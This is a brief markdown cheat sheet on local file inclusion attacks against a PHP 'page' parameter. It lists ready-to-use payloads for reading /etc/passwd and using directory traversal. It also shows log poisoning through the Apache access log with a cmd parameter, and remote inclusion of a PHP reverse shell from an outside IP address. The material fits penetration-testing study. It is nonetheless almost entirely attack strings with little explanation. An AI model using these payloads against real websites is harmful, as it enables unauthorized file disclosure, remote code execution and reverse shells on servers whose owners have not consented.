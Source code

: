 # LFI Basic

## Basic LFI

```php
?page=home.html
?page=/etc/passwd
```

## LFI using Directory Traversal

```php
?page=../creditcard
?page=../../../../etc/passwd
```

## RCE From LFI

for that we need to be able to read the log file

```php
?page=/var/log/apache2/access.log
```

```php
?page=http://10.8.2.244/php-reverse-shell.php
```

```php
?page=/var/log/apache2/access.log&cmd=[your command]
```

go here :
<https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion>